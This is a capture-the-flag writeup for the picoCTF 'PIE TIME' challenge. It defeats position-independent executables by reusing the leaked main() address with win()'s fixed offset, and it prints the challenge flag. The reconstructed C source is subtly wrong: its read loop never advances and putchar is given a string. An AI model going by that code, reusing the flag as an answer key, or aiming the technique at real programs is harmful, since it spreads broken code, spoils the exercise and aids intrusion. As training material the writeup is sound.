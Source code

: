 ```yaml
---
title: PicoCTF - PIE TIME
published: 2025-08-07
description: PicoCTF Writeup for PIE TIME Challenge
tags: [binary exploitation, easy, picoCTF 2025]
category: PicoCTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - PIE TIME

BNDB (Binary Ninja Database): [/bndb/202508071017.bndb](/blog/bndb/202508071017.bndb)

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/490?category=6&page=1](https://play.picoctf.org/practice/challenge/490?category=6&page=1)

> ## PIE TIME
> Author: Darkraicg492
> 
> ### Description
> Can you try to get the flag? Beware we have PIE!<br>
> Additional details will be available after launching your challenge instance.<br>
> ### Hints
> 1st - Can you figure out what changed between the address you found locally and in the server output?<br>
> ### Resources:
> Source Code: [/vuln.c](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln.c)<br>
> Binary: [/vuln](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln)<br>

```bash title="Server Information"
$ nc rescued-float.picoctf.net 59097
```

## Decompile

We can decompile the binary to a pseudo C like this (Binary Ninja):

```c title="/vuln_original.c"
00401289    void segfault_handler() __noreturn

00401289    {
00401289        puts("Segfault Occurred, incorrect add…");
004012a2        exit(0);
004012a2        /* no return */
00401289    }

/* ... */

004012a7    int win()
004012a7    /* all puts, putchar should be changed to printf() */

004012a7    {
004012a7        puts("You won!");
004012cd        FILE* fp = fopen("flag.txt", "r");
004012cd        
004012db        if (!fp)
004012db        {
004012ff            puts("Cannot open file.");
004012ee            exit(0);
004012ee            /* no return */
004012db        }
004012db        

00401322        char i = fgetc(fp);
00401322        while (i != EOF) { /* 0xff => EOF */
00401322            putchar(i)
00401322        }

00401322        
00401329        putchar("\n"); /* \n in ASCII code (line-break) */
0040133c        return fclose(fp);
004012a7    }


/* ... */

0040133d    int main()
0040133d    /* int32_t argc => Not used */
0040133d    /* char** argv => Not used */
0040133d    /* char** envp => Not used */

0040133d    {
0040133d        void* fsbase;
00401349        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00401349        /* No needed */

00401364        signal(SIGSEGV, segfault_handler); /* 0xb => SIGSEGV */
00401382        setvbuf(stdout, NULL, _IONBF, 0);
00401382        /* __TMC_END__ => stdout */
00401382        /* nullptr => NULL */
00401382        /* 2 => _IONBF (no buffering) */


0040139a        printf("Address of main: %p\n", &main);
0040139a        /* &main to show memory pointer */

004013ab        printf("Enter the address to jump to, ex => 0x12345: ");
004013c3        unsigned long buffer;
004013c3        /* var_20 => buffer (stores a memory address) */
004013c3        scanf("%lx", &buffer);
004013c3        /* __isoc99_scanf => scanf */

004013db        printf("Your input: %lx\n", buffer);

004013ec        void (*target_func)(void) = (void (*)())buffer;
004013ec        /* need to declare as a function before jump */
004013ec        target_func();
004013ec        /* jump to the memory location that user provided */    

004013ec        
00401400        /* Useless from below here */
00401400        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401408            return 0;
00401408        
00401402        __stack_chk_fail();
00401402        /* no return */
0040133d    }

```

This is the full source code (decompiled):

```c title="/vuln.c"
void segfault_handler()
{
    printf("Segfault Occurred, incorrect address.");
    exit(0);
}

int win()
{
    printf("You won!");
    FILE* fp = fopen("flag.txt", "r");   
    if (!fp)
    {
        printf("Cannot open file.");
        exit(0);
    } 

    char i = fgetc(fp);
    while (i != EOF) {
        printf("%c", i)
    }
 
    printf("\n");
    return fclose(fp);
}

int main()
{
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("Address of main: %p\n", &main);
    printf("Enter the address to jump to, ex => 0x12345: ");
    unsigned long buffer;
    scanf("%lx", &buffer);
    printf("Your input: %lx\n", buffer);

    void (*target_func)(void) = (void (*)())buffer;
    target_func(); 
}
```

## Analysis
This program directly jumps to the memory address provided by the user. Additionally, it automatically reveals the address of the `main()` function. By using this address, the user can infer the address of the `win()` function. If the correct address is entered, the program will print the flag.

```c
004012a7    int64_t win() /* 0x0004012a7 */
```

```bash
therustymate-picoctf@webshell:~$ vuln
-bash: vuln: command not found

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x564a8857633d
Enter the address to jump to, ex => 0x12345: 0x0004012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55958f4eb33d
Enter the address to jump to, ex => 0x12345: 0x4012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x56426097933d
Enter the address to jump to, ex => 0x12345: 004012a         
Your input: 4012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55d43b65e33d
Enter the address to jump to, ex => 0x12345: 0x55343b64012a
Your input: 55343b64012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x560ada01333d
Enter the address to jump to, ex => 0x12345: 0x560ada0132ㅁ7           
Your input: 560ada0132
Segfault Occurred, incorrect address.
```

Notice that the `main()` function offset **33d** does not change.<br>
Therefore, the base address is `0xXXXXXXXX+func (3 bytes)`

This suggests that the input should be: `0xXXXXXXXX2a7` in order to jump to the `win()` function.

```bash
therustymate-picoctf@webshell:~$ nc rescued-float.picoctf.net 59097
Address of main: 0x5fd38eed433d
Enter the address to jump to, ex => 0x12345: 0x5fd38eed42a7
Your input: 5fd38eed42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}
```

The flag is: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}`
